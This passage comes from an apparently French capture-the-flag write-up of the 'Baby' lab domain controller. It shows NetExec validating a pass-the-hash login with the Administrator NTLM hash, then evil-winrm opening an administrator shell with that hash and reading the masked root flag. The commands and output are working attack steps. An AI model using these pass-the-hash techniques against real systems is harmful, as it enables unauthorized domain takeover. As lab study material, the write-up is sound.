╰─➤  nxc smb babydc.baby.vl -u administrator -H ee4457ae59f1e3fbd764e33d9cef123d
SMB         10.129.195.51   445    BABYDC           [*] Windows Server 2022 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:False)
SMB         10.129.195.51   445    BABYDC           [-] Error checking if user is admin on 10.129.195.51: The NETBIOS connection with the remote host timed out.
SMB         10.129.195.51   445    BABYDC           [+] baby.vl\administrator:ee4457ae59f1e3fbd764e33d9cef123d
```


### evil-winrm

Je peux donc avoir un shell.
```shell
╭─root@exegol-htb /workspace/Baby
╰─➤  evil-winrm -i babydc.baby.vl -u Administrator -H ee4457ae59f1e3fbd764e33d9cef123d

Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> ls ../desktop


    Directory: C:\Users\Administrator\desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---         10/2/2025   3:54 PM             34 root.txt


type*Evil-WinRM* PS C:\Users\Administrator\Documents> type ../desktop/root.txt
4672d*****************************
```
